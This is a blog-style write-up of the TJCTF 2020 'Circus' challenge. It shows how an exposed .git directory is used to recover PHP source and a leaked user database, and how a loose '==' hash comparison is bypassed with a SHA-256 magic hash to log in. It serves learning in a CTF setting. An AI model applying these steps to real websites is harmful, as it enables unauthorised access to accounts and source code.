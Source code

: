 ```yaml
---
title: TJCTF - Circus challenge writeup
date: 2020-05-27 17:30:00 +0530
categories: [Technical, CTF-writeups]
tags: [ctf, writeups, git-security, php-type-juggling, magic-hashes]
image:
  path: /assets/img/posts/tjctf-gamerw-writeup/TJCTF.png
  alt: TJCTF 2020
---
```


This is a writeup for the `Circus` challenge in the recently held [TJCTF 2020](https://tjctf.org/).

![Challenge](/assets/img/posts/tjctf-circus-writeup/chall-circus.png "Circus")

After staring at the website for some time and going through its source code, I didn't find anything of significance. So I decided to use the [`dirsearch`](https://github.com/maurosoria/dirsearch) command line tool to look for files and directories in the website.

```bash
$ python dirsearch.py -b -u https://circus.tjctf.org/ -e *
```

The tool gave me some interesting results - 

![dirseach result](/assets/img/posts/tjctf-circus-writeup/dirsearch-result.png "dirsearch results")

As you can see from the image, the website had hosted its version control repository (`.git/`) in production. This is bad and can be used to gain access to the website's source code.

Please refer this [post](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) for more detailed information on this.

Heading to `https://circus.tjctf.org/.git/refs/heads/master` gave us the commit hash `4879af041fba89b387e751a94bfe5dbee4bd7528`.

We use this to download the commit-object from the server by going to `https://circus.tjctf.org/.git/objects/48/79af041fba89b387e751a94bfe5dbee4bd7528`

I then created a local git repository and pasted the commit-object file in the `.git/objects/48` folder.

> **Note**: Here 48 is the first 2 bytes of the commit hash

```bash
$ mkdir cirucs
$ cd circus/
$ git init
$ mkdir .git/objects/48/
$ cp ~/Downloads/79af041fba89b387e751a94bfe5dbee4bd7528 ~/Downloads/circus/.git/objects/48/
```

Now we can analyse it further:

This tells us that the downloaded object is a commit:

```bash
$ git cat-file -t 4879af041fba89b387e751a94bfe5dbee4bd7528
commit
```

Getting further details:

```bash
$ git cat-file -p 4879af041fba89b387e751a94bfe5dbee4bd7528
tree 2f16dc45649e2748d2345f01b076fb6efae38f47
parent e2731f0ea54feb0a892fd5377a932053bb3baf61
author kfb <kfb@circus.tjctf.org> 1584979440 -0700
committer kfb <kfb@circus.tjctf.org> 1584979440 -0700

oops
```

We next download the tree object and analyse it in the same way. Go to `https://circus.tjctf.org/.git/objects/2f/16dc45649e2748d2345f01b076fb6efae38f47` to download the object and paste it in the `circus/.git/objects/2f/` folder.

Analysing the tree object:

```bash
$ git cat-file -p 2f16dc45649e2748d2345f01b076fb6efae38f47
100644 blob 0c2dcae6b4a2df8b0e36f9764c82e67f63b6ffa5	.gitignore
040000 tree efb43702c73bf9b9ed4bdc67ab139e8431fff12e	css
040000 tree af6d89e6ba71c3d121bb931e11d2d0ca52f4bcb3	img
100644 blob ad9052a7a90a878dcbb120089eb96739149511ac	index.php
040000 tree 4604bf31e608e07a063c11888dc3092cf77ccfff	js
040000 tree 8a0a57c3988c44b23e079e4cccf603bc58d911b8	lib
100644 blob ef808b5889ece41f90c38567d53b7e8e13c0a489	logout.php
```

We now download the `index.php` blob (follow the same step as above) and cat its contents.

We extract the following PHP code from the file:

```php
<?php 
	require __DIR__ . "/../include/flag.php";

	session_start();
	$error = "";
	mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
	if (isset($_POST["username"]) && isset($_POST["password"]))
	{
		try
		{
			$mysqli = new mysqli(NULL, NULL, NULL, "circus");
			$stmt = $mysqli->prepare("SELECT * FROM users WHERE username = ?");
			$stmt->bind_param("s", $_POST["username"]);
			$stmt->execute();
			$res = $stmt->get_result();
			if ($res->num_rows === 0)
			{
				$error = "Invalid credentials";
			}
			else
			{
				$row = $res->fetch_assoc();
				if (hash('sha256', $_POST["password"]) == $row["password"])
				{
					$_SESSION["id"] = $row["id"];
					$_SESSION["name"] = $row["fname"];
				}
			}
		}
		catch (Exception $e)
		{
			$error = "Error signing in";
		}
	}
?>
```

From `https://circus.tjctf.org/.git/logs/refs/heads/master` we can see that the commit hash we analysed was the second commit. The commit message "oops" also hints that the developer might have pushed some sensitive content in his first commit which he corrected in the second commit. But the sensitive content will still be stored in the git version history.

Read this [blog post](https://www.honeybadger.io/blog/git-security/) for more.

We saw that the second commit contained a new `.gitignore` file. So lets print the contents of that.

```bash
$ git cat-file -p 0c2dcae6b4a2df8b0e36f9764c82e67f63b6ffa5
backup.sh
backups
```

We can see that the developer must have committed the `backup.sh` file before (1st commit) which he has now put in the `.gitnore` file now.

Going to `https://circus.tjctf.org/backup.sh` , we are pointed to `https://circus.tjctf.org/backups/users.sql` which gives us the backup of the database containing usernames and their password hashes.

The password verification logic in the PHP code uses the "==" operator and we have the SHA-256 password hashes of the users, so it was safe to assume that the website may be susceptible to `Type Juggling attack through magic hash comparison`.

Refer this [blog post](https://www.whitehatsec.com/blog/magic-hashes/) for more about magic hashes.

I searched the SQL file for a password hash which fit the magic hash format of `0+e[0-9]+` and was able to find a user who fit the bill:

```
(773,'Andon1956','0e75759761935916943951971647195794671357976597614357959761597165','Rosie','Kelly')
```

All that I had to do now, was use the username `Andon1956` along with a matching SHA-256 magic hash.

[This](https://github.com/spaze/hashes/blob/master/sha256.md) GitHub repository holds a list of SHA-256 magic hashes.

The flag was displayed on screen after logging in.

![Challenge Flag](/assets/img/posts/tjctf-circus-writeup/chall-flag.png "Circus Flag")

I would like to thank [Nimisha Dughyala](https://www.linkedin.com/in/nimisha-dughyala/) for guiding me in solving this challenge. It wouldn't have been possible without her :)